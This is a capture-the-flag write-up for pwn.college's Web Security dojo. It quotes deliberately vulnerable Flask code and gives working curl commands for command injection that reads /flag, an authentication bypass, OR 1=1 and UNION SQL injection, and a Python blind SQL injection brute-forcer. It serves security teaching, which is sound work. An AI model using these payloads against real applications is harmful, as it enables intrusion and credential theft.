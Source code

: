 # Web Security

pwn.college [Web Security](https://pwn.college/intro-to-cybersecurity/web-security/) dojo.

## Level 2 - Command injection

Code for the level

```python
def level2():
    timezone = request.args.get("timezone", "UTC")
    return subprocess.check_output(f"TZ={timezone} date", shell=True, encoding="latin")
```

I want to inject `TZ=; cat /flag # date` into `TZ={timezone} date`.

```sh
curl "http://challenge.localhost:80?timezone=;%20cat%20/flag%20%23"
```

## Level 3 - Authentication bypass vulnerability

Code for the level

```python
def level3():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
        assert user, "Invalid `username` or `password`"

        return redirect(request.path, user=int(user["rowid"]))

    if "user" in request.args:
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```

I simply need to skip authentication and provide the user ID,

```sh
curl http://challenge.localhost:80?user=1
```

## Level 3 - SQL Injection

Code for this level:

```python
def level4():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f'SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"').fetchone()
        assert user, "Invalid `username` or `password`"

        session["user"] = int(user["rowid"])
        return redirect(request.path)

    if session.get("user"):
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```

This time, the user is stored in a `session` so we can't send it. Instead, we want to exploit the fact that the `username` and `password` are used to form the SQL string for authenticating the user. I want to change it to something like this;

```sql
SELECT rowid, * FROM users WHERE username = "flag" AND password = "" OR 1=1 --"
```

To do this, I use `curl` to login,

```sh
curl -v -c cookies.dat --data "username=flag" --data "password=%22 OR 1=1 --" -X POST http://challenge.localhost:80
```

Then I pull the session cookie out and follow the redirect,

```sh
curl -v -b session=eyJ1c2VyIjoxfQ.ZnCLHA.yyxgmZ5gotlukXOhlRf99GfV4RU http://challenge.localhost:80
```

## Level 5 - SQL injection using UNION

The code for this level,

```python
def level5():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM users WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)
```

In this case, I want to take advantage of the `query` parameter to create a SQL statement,

```sql
SELECT username FROM users WHERE username LIKE "" UNION SELECT password FROM users --"
```

I form this in `curl`,

```sh
curl -v http://challenge.localhost:80?query=%22%20UNION%20SELECT%20password%20FROM%20users%20--
```

## Level 6 - SQL injection with an unknown schema

```python
def level6():
    table_name = f"table{hash(flag) & 0xFFFFFFFFFFFFFFFF}"
    db.execute((f"CREATE TABLE IF NOT EXISTS {table_name} AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM {table_name} WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)
```

Once again, use a UNION but this time to list tables, `SELECT name FROM sqlite_master`,

```sh
curl -v http://challenge.localhost:80?query=%22%20UNION%20SELECT%20name%20FROM%20sqlite_master%20--
```

This gives me the table name `table13213357520839709907` which I can use like in level 5,

```sh
curl -v http://challenge.localhost:80?query=%22%20UNION%20SELECT%20password%20FROM%20table13213357520839709907%20--
```

## Level 7 - Blind SQL injection

In a blind SQL injection, you must infer the data based on side effects in the web application. In this case, I create a SQL Injection attack that looks for passwords like `pwn.college{%`. If I can log in, the password that I have so far is correct, if I can't, then it is incorrect. I can then loop through all the possible characters to find each character in the password.

```python
#!/usr/bin/env python3

import requests
import json

flag = 'pwn.college{'
headers = {'Content-Type': 'application/x-www-form-urlencoded'}

while True:
    # Loop from space to tilde ~
    for c in range(32, 127):
        # skip * and ? from the glob
        if c == 42 or c == 63:
            continue

        char = chr(c)

        data = {
            'username': 'flag',
            'password': f"\" OR password GLOB '{flag}{char}*' --"
        }
        r = requests.post('http://challenge.localhost:80', headers=headers, data=data)

        # Check the response
        if r.status_code == 200:
            flag += char
            print(flag)
            break

    if flag[-1] == '}':
        break

print("Pwn'd the flag")
```
